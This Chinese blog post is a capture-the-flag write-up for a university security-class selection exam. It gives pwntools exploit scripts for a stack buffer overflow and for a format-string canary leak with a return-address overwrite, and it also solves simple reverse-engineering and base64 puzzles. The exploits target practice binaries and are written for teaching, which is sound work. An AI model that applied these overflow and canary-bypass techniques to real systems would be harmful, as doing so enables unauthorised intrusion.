









<!--yml
category: 未分类
date: 2022-04-26 14:20:41
-->

# 【CTF题解NO.00001】西安电子科技大学网络与信息安全学院2020年网络空间安全专业实验班选拔考试 - write up by arttnba3_arttnba3的博客-CSDN博客

> 来源：[https://blog.csdn.net/arttnba3/article/details/108068170](https://blog.csdn.net/arttnba3/article/details/108068170)

### 【CTF题解NO.00001】西安电子科技大学网络与信息安全学院2020年网络空间安全专业实验班选拔考试 - write up by arttnba3

* * *

# 0x00.绪论

最近这几天网络与信息安全学院搞网络空间安全专业的实验班考试，作为蒟蒻的我抱着试一试的心态混入了考试的大佬之中XDD

~~说不定再过几天我就从计科院人变成网信院人le~~

现在行政班是计科院，教学班是网信院，迷惑子…

> 听说题都是从CMISCCTF那边拿过来的，srds，作为一个baby pwner感觉题目没啥技术含量（虽然说我也只会做Pwn…

* * *

# 0x01.PWN (AK)

pwn只有两道基础题，哪怕是我这个主攻pwn的蒟蒻也能十分钟就写出来了呢www

* * *

## cmcc_stack

[点击下载-bin](https://arttnba3.cn/download/cmiscctf2020/pwn_cmcc_stack/bin "点击此处下载原题")
惯例`checksec`，只开了NX保护，四舍五入就是没有保护


拖入IDA，发现当v5的值为-559038737（0xdeadbeef）时可以getflag




read函数读入到地址`esp+0x80-0x68`，v5的地址是`esp+0x7c`，所以我们只需要覆盖掉v5的值为`0xdeafbeef`即可getflag

故构造payload如下

```
from pwn import *
pl = b'A'*0x64 + p32(0xdeadbeef)

p = process('./bin')
p.sendline(pl)
p.interactive() 
```

输入即可得到flag



* * *

## pwn_canary

[点击下载-canary](https://arttnba3.cn/download/cmiscctf2020/pwn_pwn_canary/canary "点击此处下载原题")
惯例的`checksec`，开了NX保护和Canary，说明我们不能像之前那样轻松地溢出了，需要绕过Canary


拖入IDA进行分析，我们可以发现在`fun()`函数处存在溢出，偏移量为`0x70`，故考虑绕过canary后控制程序返回至`getflag()`






如何绕过canary？在main函数中我们可以看到其先读入format再输出format，存在格式化字符串漏洞，我们可以利用这个来输出canary的值，再覆盖掉即可

故构造payload如下

```
from pwn import *
pl1 = '%7$x'
get_flag = 0x804863d

p = process('./canary')
p.sendline(pl1)
cnry = int(p.recv(),16)
pl2 = 26*p32(cnry) + p32(get_flag)
p.sendline(pl2)
p.interactive() 
```

得到flag



* * *

# 0x02.reverse

只解出了一道题55555

* * *

## Babyre

[点击下载-babyre](https://arttnba3.cn/download/cmiscctf2020/Reverse-Babyre/babyre.zip "点击此处下载原题")
.net逆向
拖入dnSpy即得flag



* * *

# 0x03.misc

只写出来两道最基础的签到题XD

* * *

## hello

首先给了这样一串文本

```
Q01JU0NDVEZ7V2VsY29tZV9DVEZlciF9 
```

base64解码即得flag

```
CMISCCTF{Welcome_CTFer!} 
```

* * *

## encrypt

首先给了这样一串文本

```
UTAxSlUwTkRWRVo3Um1GclpWOWxibU55ZVhCMGFXOXVmUT09 
```

base64解码得到这样一串文本

```
Q01JU0NDVEYlN0JGYWtlX2VuY3J5cHRpb24lN0Q= 
```

很明显的base64特征，再次base64解码即得flag

```
CMISCCTF{Fake_encryption} 
```

* * *

其他的题都不会写了XDDDD果然我还是太菜了QAQ